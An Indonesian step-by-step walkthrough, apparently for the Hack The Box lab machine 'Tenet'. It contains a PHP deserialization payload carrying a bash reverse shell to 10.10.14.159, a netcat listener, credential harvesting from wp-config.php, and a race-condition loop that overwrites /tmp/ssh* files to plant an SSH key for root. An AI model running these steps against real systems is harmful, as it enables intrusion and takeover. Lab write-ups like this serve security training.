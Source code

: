 1. nmap
2. buka tenet.htb
3. cek semua post > dari awal
4. di post kedua > ada info kalau database disimpan dalam sebuah file. Dan ada sebuah file sator.php dan backup-annya
5. sator.tenet.htb > tampilan default apache
6. sator.tenet.htb/sator.php
7. sator.tenet.htb/sator.php.bak
8. pakai curl aja
9. buat file rce.php > nano rce.php
10. isi dari rce.php

opentagPHP

class DatabaseExport {

public $user_file ='rce.php';

public $data = '<?php exec("/bin/bash -c \'bash -i >& /dev/tcp/10.10.14.159/1234 0>&1\'") ?>';

}

print urlencode(serialize(new DatabaseExport))

closetagPHP


11. save file > jalankan php rce.php. Ini akan dimasukkan ke paramater bernama arepo
12. sator.tenet.htb/sator.php?arepo=xxxxx
13 jalankan listner > rlwrap nc -lvp 1234
14. curl http://sator.tenet.htb/rce.php
15. Nanti akan didapatkan shell
16. upgrade shell
17. python3 -c "import pty;pth.spawn('/bin/bash')"
18. stty raw -echo
19. export TERM=xterm
20. cd wordpress
21. cat wp-config.php > ada username + password untuk SSH
22. ssh dulu


23. id
24. sudo -l
25. cat /usr/bin/.....
26. ada key, merupakan kunci publik ssh
27. pada addkey terdapat celah yang bisa kita manfaatkan
28. ls /tmp
29. rm /tmp/ssh* > remove semua file ssh

30. buat ssh > ssh-keygen > id_rsa
31. cat id_rsa.php
32. copy isinya ke sistem
33. (di sistem) while true; do echo "xxxxxx" | tee /tmp/ssh* > /dev/null; done& (dijalankan sebagai background)
34. sudo -l
35. jalankan binary nya
36. sudo /usr/....
37. jalankan terus sampek bisa
38. Jika sudah sukses, coba ssh saja
39. ssh root@10.10.10.223 -i id_rsa
40. tinggal pindah ke root
